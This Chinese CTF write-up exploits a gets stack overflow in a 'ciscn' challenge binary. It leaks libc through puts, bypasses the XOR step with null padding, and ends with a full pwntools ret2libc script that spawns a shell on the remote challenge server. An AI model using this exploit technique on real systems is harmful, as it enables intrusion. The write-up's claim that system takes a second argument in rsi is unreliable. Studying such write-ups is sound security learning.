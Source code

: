 ## 0x001 程序分析

进入程序，查看main函数

![](1.png)

一通打印之后，调用了begin函数，查看下begin函数内容

![](2.png)

这里只是打印了一些提示信息，接着往下分析main函数之后的内容

按照提示信息循环接收输入，输入1，则进入加密函数 **encrypt**, 输入2，尽打印一个字符串，输入3，退出程序。

关键在于 **encrypt** 函数。

![](3.png)

**encrypt** 函数中，接收输入一个要加密的字符串，通过 **strlen** 获取输入字符串的长度，然后对字符串进行异或加密。

## 0x002 漏洞分析

通过分析，可以很容易看出漏洞位于 **encrypt** 函数，这里使用了gets接收输入，而且未对输入的长度做限制，输入的内容存放在栈上，距离 **rbp** 为 0x50 个字节，因此当输入的内容大于 0x50 个字节时就会覆盖 **rbp**。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：

![](4.png)

程序开启了NX保护，这里首先想到构造ROP绕过。

由于程序里没有 **system** 函数和 **/bin/sh** 字符串，并且也没有提供libc库，因此需要通过 **LibcSearcher** 或 **DynELF** 来泄漏libc地址。

第一步，首先构造ROP泄漏某个函数的真实地址，这里选择使用 **puts** 来泄漏 **gets** 函数的真实地址。（为什么不选择泄漏puts函数的真实地址呢？由于这里选择使用LibcSearcher来泄漏libc地址，因此使用puts函数的真实地址去获取libc函数的地址时，会提示获取不到，具体原因是此处搜寻到的libc是本机的libc-2.23，需要自行添加到database，具体方法可上github，搜寻libc_database项目）

64位系统下，**puts** 函数参数传递使用的是 **rdi**，需要使用 **ROPgadget** 来获取 **pop rdi ; ret** 指令的地址。

泄漏 **gets** 函数的真实地址的ROP如下：
```
rop1 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
```

这里填充物选择 **"\x00"** 的原因是为了绕过 **encrypt** 函数中的异或加密。由于 **encrypt** 函数对输入字符串进行异或加密的长度是用 **strlen** 获取的，而 **strlen** 获取字符串长度的结束标志就是 **"\x00"**，因此将填充物设置为 **"\x00"** 就可以使 **strlen** 获取到的长度为0，从而绕过后面的异或加密。（只要将第一个设置为 "\x00" 也是可以的，后面填充物无所谓。）

第二步，获取到 **gets** 函数的真实地址后，使用 **LibcSearcher** 来泄漏libc地址，**LibcSearcher**的使用方法为
```
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

通过真实地址以及偏移，可获取libc基地址，然后就可以通过 **system** 函数和 **/bin/sh** 字符串的偏移地址，获取其真实地址。

第三步，再次构造ROP，执行 **system("/bin/sh", 0)** 命令获取系统权限。

**system** 函数参数传递使用的是 **rdi和rsi**，再次使用 **ROPgadget** 来获取 **pop rdi ; pop rsi; ret** 指令的地址。

由于程序中没有直接调用 **pop rdi ; pop rsi; ret** 指令的地址，因此可以选择与其他指令结合一下，如下所示：
```
0x0000000000400c83 : pop rdi ; ret
0x0000000000400c81 : pop rsi ; pop r15 ; ret
```

可以先使用 **pop rdi ; ret** 指令将 **system** 函数的第一个参数 **"/bin/sh"** 赋值给 **rdi**，然后使用 **pop rsi ; pop r15 ; ret** 指令将第二个参数 **0** 赋值给 **rsi**，即可完成 **system** 函数的参数传递。（另一个pop r15指令，可以随意在栈中填充数据赋值给r15）

执行 **system("/bin/sh", 0)** 命令构造的ROP如下:
```
rop2 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(system_addr)
```

到此即可完成漏洞利用过程。

完整exp如下：
```
from pwn import *
from LibcSearcher import *

# p = process("./ciscn")
p = remote("node4.buuoj.cn", 29673)
elf = ELF("./ciscn")

gets_got = elf.got["gets"]
puts_plt = elf.plt["puts"]
main_addr = elf.symbols["main"]
pop_rdi_ret = 0x400c83

rop1 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop1)
p.recvuntil("Ciphertext\n\n")

gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))

libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

pop_rsi_r15_ret = 0x400c81
ret = 0x4006b9

rop2 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(system_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop2)
p.recvuntil("Ciphertext\n\n")

p.interactive()
```